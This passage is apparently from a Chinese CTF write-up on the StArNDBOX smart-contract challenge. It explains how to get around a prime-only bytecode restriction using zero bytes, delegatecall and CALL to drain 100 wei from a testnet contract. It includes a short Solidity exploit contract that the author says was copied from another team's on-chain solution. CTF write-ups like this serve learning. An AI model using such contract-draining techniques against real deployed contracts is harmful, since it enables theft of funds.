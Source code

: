 上面的数学方法以2为基来算素数在0-255区间内，除了0是没有问题的，所以我们想到的就是用0来绕过它对字节码仅能为素数的限制。<br>
给了delegatecall。<br>
合约里面只有100wei，我们可以通过call（0xf1素数)方法来将余额清空。<br>
比赛时候是利用强大的黑暗力量做的。因为题目部署合约100wei在Rinkedby测试链属实很少见，随便翻了翻就可以找到其中队伍做出的合约。<br>
给出赛时exp(题目代码就不贴了)。

```
contract exp`{`
    constructor()public`{``}`
    address ss=0xb3879a53b3964494a149BcC1863dD262C35a64aE;
    address target=0x8748ec747eB7af0B7c4e82357AAA9de00d32264a;
    StArNDBOX a=StArNDBOX(target);
    function step()external`{`
        a.StArNDBoX(ss);
    `}`
`}`
```

call的其他是没有问题的，当call一个合约非方法的四字节地址时，那么就会直接给其转账。那么贴图看下字节码的执行。

[![](https://p4.ssl.qhimg.com/t0122498db6c5873adb.png)](https://p4.ssl.qhimg.com/t0122498db6c5873adb.png)

如此一来就没有质数。部署一个bytecode如上的合约即可成功调用。
